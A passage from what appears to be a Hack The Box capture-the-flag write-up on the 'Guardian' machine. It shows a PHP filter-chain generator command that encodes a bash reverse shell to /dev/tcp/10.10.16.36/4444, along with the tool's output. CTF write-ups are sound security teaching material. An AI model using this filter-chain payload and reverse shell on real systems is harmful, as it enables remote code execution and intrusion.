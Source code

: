 ![Guardian Admin Reports](/assets/img/guardian-htb-release-area-machine/guardian-htb-release-area-machine_admin-reports-6.png)

There we go, got our result, now let's leverage this point to reverse shell.

> *Remeber to add `,system.php` at the end incase forgot it and it will not working :)*

```bash
└─$ python3 php_filter_chain_generator.py --chain '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.16.36/4444 0>&1'\''");?>'
[+] The following gadget chain will generate the following code : <?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.36/4444 0>&1'");?> (base64 value: PD9waHAgc3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjM2LzQ0NDQgMD4mMSciKTs/Pg)
```